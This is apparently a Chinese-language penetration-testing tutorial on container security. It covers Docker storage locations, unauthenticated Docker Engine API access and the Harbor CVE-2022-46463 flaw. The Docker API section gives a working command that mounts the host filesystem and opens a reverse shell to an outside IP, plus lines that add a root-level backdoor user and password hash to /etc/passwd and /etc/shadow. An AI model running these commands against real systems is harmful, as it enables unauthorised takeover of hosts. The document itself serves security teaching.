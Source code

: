 # 容器安全

![docker-workflow](../images/docker-workflow.png)

## 在 Ubuntu 安装 Docker

在 Ubuntu 22.04 安装 Docker，

<https://docs.docker.com/engine/install/ubuntu/>

## 基本语法

```bash
$ docker info

...
 Storage Driver: overlay2
 Docker Root Dir: /var/lib/docker
...
```

以下列出了不同操作系统下 Docker 默认的存储位置，但请注意，这些位置可以通过配置更改：

* **Ubuntu:** `/var/lib/docker/`
  * **备注:** 这是 Ubuntu 系统上 Docker 镜像、容器层、数据卷和网络配置的默认存储位置。 渗透测试人员需要关注此目录下的文件，例如 `image/` (镜像层)， `containers/` (容器配置)， `volumes/` (数据卷) 等， 检查是否存在安全隐患.
* **Fedora:** `/var/lib/docker/`
  * **备注:** 与 Ubuntu 类似，此目录包含了 Fedora 系统中所有 Docker 相关的数据。需要注意的是，Fedora 可能使用 SELinux 进行强制访问控制，这可能会影响渗透测试过程中对文件的访问权限。
* **Debian:** `/var/lib/docker/`
  * **备注:** Debian 系统的 Docker 存储位置与 Ubuntu 基本相同。渗透测试人员应注意检查 Docker 配置文件的权限，例如 `/etc/docker/daemon.json`，防止恶意配置导致安全问题。
* **Windows:** `C:\ProgramData\DockerDesktop`
  * **备注:** 在 Windows 系统上，Docker Desktop 使用 Hyper-V 虚拟机来运行 Docker 守护进程。 实际的 Docker 数据存储在虚拟机的磁盘文件中。  渗透测试人员可以使用工具 (例如 PowerShell) 访问该目录，并分析虚拟机磁盘镜像。
* **MacOS:** `~/Library/Containers/com.docker.docker/Data/vms/0/~`
  * **备注:**  与 Windows 类似，Docker Desktop for Mac 也使用虚拟机。此路径指向虚拟机内部的 Docker 数据目录。 渗透测试人员可能需要借助特定的工具和技术来访问虚拟机内部的文件系统，例如使用 `docker exec` 命令进入容器，或者使用虚拟机管理工具访问虚拟磁盘。

Docker 根目录的内部结构，`/var/lib/docker` 目录中保存着各种信息，例如：容器数据、卷、构建文件、网络文件和集群数据。

```bash
$ sudo ls -al /var/lib/docker
total 52
drwx--x--- 12 root root 4096 Jul 30 08:03 .
drwxr-xr-x 50 root root 4096 Jul 23 10:45 ..
drwx--x--x  5 root root 4096 Jul 29 21:00 buildkit
drwx--x---  5 root root 4096 Jul 30 08:03 containers
-rw-------  1 root root   36 Jul 21 22:35 engine-id
drwx------  3 root root 4096 Jul 21 22:35 image
drwxr-x---  3 root root 4096 Jul 21 22:35 network
drwx--x--- 58 root root 4096 Jul 30 08:03 overlay2
drwx------  3 root root 4096 Jul 21 22:35 plugins
drwx------  2 root root 4096 Jul 30 08:03 runtimes
drwx------  2 root root 4096 Jul 21 22:35 swarm
drwx------  2 root root 4096 Jul 30 08:03 tmp
drwx-----x  2 root root 4096 Jul 30 08:03 volumes
```

## Docker Engine API 未授权访问

Docker Engine API 是 Docker 官方提供的 **RESTful API** 接口，用于与 Docker 守护进程（Docker Daemon）进行交互。该 API 支持通过 HTTP/HTTPS 协议对容器、镜像、网络、卷等核心资源进行全生命周期管理。

Docker 守护进程默认通过 Unix Domain Socket (`unix:///var/run/docker.sock`) 进行本地进程间通信（IPC）。但如果配置不当，例如将守护进程绑定到 0.0.0.0，则会暴露在网络上。如果没有设置访问权限控制，如未启用 TLS 认证或防火墙限制，攻击者就可以直接通过网络访问该 API，无需认证即可执行各种 Docker 操作命令。由于 Docker 默认以 root 权限运行，攻击者可利用其远程创建特权容器，进而控制宿主机。

### 环境搭建

默认情况下，Docker 守护进程通过 Unix 套接字监听本地客户端的连接请求。可以通过配置 Docker 同时监听 IP 地址、端口以及 Unix 套接字，使其能够接受来自远程客户端的请求。
<https://docs.docker.com/engine/daemon/remote-access/>

```bash
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

### 漏洞利用

#### 宿主机文件系统挂载（`-v /:/mnt`）

```bash
docker -H tcp://x.x.x.x:2375 run --rm -v /:/mnt ubuntu chroot /mnt /bin/bash -c "bash -i >& /dev/tcp/192.168.1.130/4444 0>&1"
```

由于我们将宿主机的根目录挂载到容器中，因此可以从容器内直接修改宿主机的 `/etc/passwd` 和 `/etc/shadow` 文件，添加自定义用户或修改密码，进而通过 SSH 登录宿主机。

```bash
echo 'hacker:x:0:0:hacker,,,:/home/hacker:/bin/bash' >> /etc/passwd
```

| 字段 | 说明 |
|---|----|
| `hacker` | **用户名**：系统登录时使用的账户名称。 |
| `x` | **密码占位符**：实际密码加密后存储在 `/etc/shadow` 文件中。 |
| `0` | **用户ID (UID)**：唯一标识用户的数字，用于权限控制。 UID 0 是 root 的标识 |
| `0` | **用户组ID (GID)**：用户所属主组的唯一标识。 |
| `hacker,,,` | **用户描述信息**：可包含全名、联系方式等（此处为空）。 |
| `/home/hacker` | **家目录路径**：用户专属文件存储目录，默认位于 `/home/` 下。 |
| `/bin/bash` | **默认 Shell**：用户登录后启动的命令行解释器（此处为 Bash）。 |

密码哈希值（`$6` 表示 SHA-512 算法）,明文密码为`dev`。

```bash
echo 'hacker:$6$gB/z0wS0$BZ.Zoj6QsXn4uwKUi6/zZm0ga/IJf7YHVneEXut0I06.ZywgtKcB79Mj.EAymXubo8tuos9Fr.aFCWs8PNH6T1:17096:0:99999:7:::'>> /etc/shadow
```

#### 参考资料

* <https://github.com/0xchang/DockerApiRCE>
* <https://www.trendmicro.com/en_hk/research/24/j/attackers-target-exposed-docker-remote-api-servers-with-perfctl-.html>
* <https://medium.com/@cloudsectraining/abusing-docker-remote-api-bef6a099cfd3>

## Habor 未授权访问漏洞（CVE-2022-46463）

Harbor 是一个开源的 **企业级容器镜像仓库**，由 VMware 公司（现为 Broadcom 旗下）开发并捐赠给 CNCF（云原生计算基金会）。它提供了安全、高效的 Docker 镜像存储和管理功能，适用于企业级 DevOps 和云原生环境。

Harbor 采用 微服务架构，主要组件包括：

Core：核心服务，处理 API 请求。
Registry：存储 Docker 镜像（基于 Distribution）。
Database（PostgreSQL）：存储用户、项目、权限等元数据。
Redis：缓存会话和临时数据。
Job Service：处理异步任务（如镜像复制、垃圾回收）。
Portal：Web UI 管理界面。
Notary（可选）：镜像签名验证。
Trivy/Clair（可选）：漏洞扫描。

由于 Harbor 的访问控制缺陷，未认证的攻击者可通过该漏洞获取公开和私有镜像仓库的全部信息，对私有仓库的未授权访问可能泄露专有应用代码、容器镜像中硬编码的凭据或令牌，还可能暴露过时镜像中的安全漏洞。

### 环境搭建

```bash

```

### 漏洞利用

Docker 镜像导出

<https://docs.docker.com/reference/cli/docker/image/save/>

docker inspect

检查 `.tar` 文件结构, tar -tf

mkdir ubuntu && tar -xf ubuntu.tar -C ubuntu

### 参考资料

* <https://github.com/404tk/CVE-2022-46463>
* <https://mp.weixin.qq.com/s/21V_TACA-UEeKdM2_D-0oQ>
* <https://blog.hans362.cn/post/sjtu-ctf-2023-writeup/#exsecurity_flag_r>
